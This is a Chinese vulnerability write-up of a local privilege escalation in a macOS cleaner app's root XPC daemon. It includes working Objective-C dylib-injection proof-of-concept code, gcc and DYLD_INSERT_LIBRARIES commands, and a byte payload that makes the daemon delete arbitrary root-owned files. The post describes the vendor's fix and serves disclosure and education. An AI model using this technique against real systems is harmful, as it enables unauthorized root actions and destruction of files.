 > 原文链接: https://www.anquanke.com//post/id/213488 


# 一次对某厂商MacOS客户端软件本地提权漏洞的挖掘与利用


                                阅读量   
                                **169899**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p2.ssl.qhimg.com/t01cea48764f89c39f8.jpg)](https://p2.ssl.qhimg.com/t01cea48764f89c39f8.jpg)



作者：[houjingyi](https://houjingyi233.com/)`[@360CERT](https://github.com/360CERT)`

MacOS客户端软件中经常出现开发者使用XPC没有正确进行验证导致的本地提权漏洞。其实这个漏洞也是无意发现的，因为自己本来也在用这个软件，所以顺手就审计了一下。

首先这个软件是一个垃圾清理软件，注意到后台有一个root权限运行的daemon进程，那么我们直接IDA反编译，找到shouldAcceptNewConnection函数。

[![](https://p0.ssl.qhimg.com/t01bccfb857005cba5f.jpg)](https://p0.ssl.qhimg.com/t01bccfb857005cba5f.jpg)

开发者还是有一定安全意识的，似乎这里看起来没有什么问题，用codesign检查了程序的签名，所有可执行文件flags=0x10000，无法进行dylib注入。官网上下载链接是`www.xxxx.com/xxx_4.4.0.dmg`，我直接把下载链接改成`www.xxxx.com/xxx_1.1.0.dmg`，下载到了一个非常老的版本，在这个版本中找到了一个flags=0x0的可执行文件，也就是说我们可以dylib注入到这个版本的可执行文件然后与daemon进程通信，这样就绕过了验证，可以调用daemon进程导出的函数。

class-dump一下：

[![](https://p3.ssl.qhimg.com/t012cd3591c4e3de51f.jpg)](https://p3.ssl.qhimg.com/t012cd3591c4e3de51f.jpg)

我们先来试试能不能调用导出的buildXPCConnectChannel函数，因为这个函数没有参数，比较简单。在IDA中可以看到该函数会打印一个log：

[![](https://p1.ssl.qhimg.com/t012ee2e360d4c248b0.jpg)](https://p1.ssl.qhimg.com/t012ee2e360d4c248b0.jpg)

代码大概是下面这样的：

```
#import &lt;Foundation/Foundation.h&gt;

static NSString* kXPCHelperMachServiceName = @"xxx";

@protocol xxxDaemonXPCProtocol &lt;NSObject&gt;
- (void)sendDataToDaemon:(NSData *)arg1 withReply:(void (^)(NSData *))arg2;
- (void)buildXPCConnectChannel;
@end

__attribute__((constructor))
static void customConstructor(int argc, const char **argv)
`{`

    NSString*  _serviceName = kXPCHelperMachServiceName;

    NSLog(@"test");

    NSXPCConnection* _agentConnection = [[NSXPCConnection alloc] initWithMachServiceName:_serviceName options:4096];
    [_agentConnection setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(xxxDaemonXPCProtocol)]];
    [_agentConnection resume];

    [_agentConnection.remoteObjectProxy buildXPCConnectChannel]; 

    NSLog(@"Done!");

    return;
`}`
```

编译：

`gcc -dynamiclib -framework Foundation poc.m -o poc.dylib`

运行：

`DYLD_INSERT_LIBRARIES=poc.dylib /Users/hjy/Downloads/xxx`

看一下系统日志：

[![](https://p4.ssl.qhimg.com/t015f9511c535b8366a.png)](https://p4.ssl.qhimg.com/t015f9511c535b8366a.png)

接下来我们想要证明这个漏洞是有实际危害的，通过前面class-dump的结果可以知道还有一个sendDataToDaemon的导出函数，在IDA中看到这个函数调用了cmdDispather函数：

[![](https://p2.ssl.qhimg.com/t010561d7bdb5015832.jpg)](https://p2.ssl.qhimg.com/t010561d7bdb5015832.jpg)

在cmdDispather函数中基本上就可以用root权限做任何事情了：

[![](https://p3.ssl.qhimg.com/t019425cead8d31eb5f.jpg)](https://p3.ssl.qhimg.com/t019425cead8d31eb5f.jpg)

为了省事，我决定编写一个能够删除任意文件的POC。我可以通过调试程序下断点的方法去弄清楚这里的参数是什么，因为一开始就说了这是一个垃圾清理软件，当我用垃圾清理或者程序删除之类的功能去删除root用户文件的时候前台进程是没有权限删除的，它肯定是调用sendDataToDaemon函数把消息发给daemon进程让daemon进程去删的，所以调试程序触发断点很方便。

最后，我大概搞清楚了这里参数是怎么组成的：首先有4个byte表示总长度，接下来有几个含义未知但是不会变的byte，然后又有4个byte表示剩余部分的长度，接下来是当前用户名和要删除的文件名(ASCII)，最后又有几个含义未知但是不会变的byte。

成功编写出的删除任意文件的POC大概是下面这样的，这个POC能够使得普通用户houjingyi1996删除root用户文件/opt/cisco/anyconnect/ACManifestVPN.xml。

```
#import &lt;mach-o/dyld.h&gt;
#import &lt;Foundation/Foundation.h&gt;

static NSString* kXPCHelperMachServiceName = @"xxx";

@protocol xxxDaemonXPCProtocol &lt;NSObject&gt;
- (void)sendDataToDaemon:(NSData *)arg1 withReply:(void (^)(NSData *))arg2;
- (void)buildXPCConnectChannel;
@end

__attribute__((constructor))
static void customConstructor(int argc, const char **argv)
`{`

    NSString*  _serviceName = kXPCHelperMachServiceName;

    Byte byte[] = `{`0x4d, 0x00, 0x00, 0x00, 0x46, 0x1f, 0x00, 0x00, 0x02, 0x00, 0x00, 0x00, 0x03, 0x00, 0x00, 0x00, \
                   0x36, 0x00, 0x00, 0x00, 0x68, 0x6f, 0x75, 0x6a, 0x69, 0x6e, 0x67, 0x79, 0x69, 0x31, 0x39, 0x39, \
                   0x36, 0x00, 0x2f, 0x6f, 0x70, 0x74, 0x2f, 0x63, 0x69, 0x73, 0x63, 0x6f, 0x2f, 0x61, 0x6e, 0x79, \
                   0x63, 0x6f, 0x6e, 0x6e, 0x65, 0x63, 0x74, 0x2f, 0x41, 0x43, 0x4d, 0x61, 0x6e, 0x69, 0x66, 0x65, \
                   0x73, 0x74, 0x56, 0x50, 0x4e, 0x2e, 0x78, 0x6d, 0x6c, 0x00, 0x00, 0x00, 0x01`}`;

    //0x4d, 0x00, 0x00, 0x00 总长度
    //0x46, 0x1f, 0x00, 0x00, 0x02, 0x00, 0x00, 0x00, 0x03, 0x00, 0x00, 0x00 含义未知
    //0x36, 0x00, 0x00, 0x00 应该是剩余部分的长度(不算最后的0x00, 0x00和0x01)
    //0x68, 0x6f, 0x75, 0x6a, 0x69, 0x6e, 0x67, 0x79, 0x69, 0x31, 0x39, 0x39, 0x36 用户名(ASCII)
    //剩下的部分是文件名, 这里是/opt/cisco/anyconnect/ACManifestVPN.xml(ASCII)
    //0x00, 0x00, 0x01 最后这三个字节，含义未知

    NSData *arg1 = [[NSData alloc]initWithBytes:byte length:77];

    NSXPCConnection* _agentConnection = [[NSXPCConnection alloc] initWithMachServiceName:_serviceName options:4096];
    [_agentConnection setRemoteObjectInterface:[NSXPCInterface interfaceWithProtocol:@protocol(xxxDaemonXPCProtocol)]];
    [_agentConnection resume];

    [_agentConnection.remoteObjectProxy buildXPCConnectChannel]; 

    [[_agentConnection remoteObjectProxyWithErrorHandler:^(NSError* error) `{`
        (void)error;
        NSLog(@"Failure");
    `}`]sendDataToDaemon:arg1 withReply:^(NSData * err)
    `{`
        NSLog(@"Success");   
    `}`];
    NSLog(@"Done!");

    return;
`}`
```

我向厂商提交了POC和演示视频之后厂商很快确认并修复了漏洞。修复方法也很简单，再检查一下程序的版本号就可以了。

[![](https://p4.ssl.qhimg.com/t01f8ef8e0fa899785d.jpg)](https://p4.ssl.qhimg.com/t01f8ef8e0fa899785d.jpg)



## 最后

1.编写的程序如果需要在高权限下运行或者导出了危险的接口，必须经过仔细的审计。<br>
2.和windows系统上的dll注入一样，厂商往往会不太注意dylib注入这样的问题，然而在一些场景下dll/dylib注入可能会导致非常严重的后果。
